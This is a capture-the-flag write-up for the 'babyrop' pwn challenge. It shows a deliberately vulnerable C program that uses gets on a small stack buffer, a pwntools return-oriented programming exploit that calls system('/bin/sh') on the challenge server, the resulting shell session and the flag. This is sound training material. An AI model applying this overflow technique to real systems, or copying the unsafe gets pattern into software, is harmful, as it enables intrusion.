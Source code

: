 # babyrop [Pwn]

## Prompt
You are ready for more return-oriented programming.

``` bash
nc challs1.nusgreyhats.org 5012
```

![Image of prompt](./screenshots/babyrop-prompt.png)

## Files
[babyrop.tar.gz](./files/babyrop.tar.gz)

## Description

As seen in the [C file](./files/babyrop.c) below, ...

``` c
// babyrop.c

/* gcc -no-pie -fno-stack-protector ./babyrop.c -o babyrop */
#include <stdio.h>

char *favorite_shell = "/bin/sh";

int main() {
    puts("The time now is:");
    system("date");

    printf("My favorite shell is %s\n", favorite_shell);

    char buf[32];
    gets(buf);
    return 0;
}
```

With that, we can craft our payload into our [script](./files/baby-code.py). We used the pwn library for python for this.

``` python
from pwn import *

HOST = "challs1.nusgreyhats.org"
PORT = 5012
BINARY = "./babyrop"
BABYROP = ELF('./babyrop')

PAYLOAD = p64(0x0000000000400486) * 8 + \
    p64(0x0000000000400683) + \
    p64(0x004006a4) + \
    p64(BABYROP.plt['system'])

r = remote(HOST, PORT)  # server
# r = process(BINARY)   # local

pause()
r.sendline(PAYLOAD)
r.interactive()
```

Running the python script will then give use the flag!

``` bash
$ python3 baby-code.py
[*] 'babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challs1.nusgreyhats.org on port 5012: Done
[*] Paused (press any to continue)
[*] Switching to interactive mode
Mon Aug 16 09:29:31 UTC 2021
$ ls
flag.txt
run
$ cat flag.txt
greyhats{4n_e4sy_0ne_f0r_y0u_82hhd2dh8dh}
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
```

## Flag
`greyhats{4n_e4sy_0ne_f0r_y0u_82hhd2dh8dh}`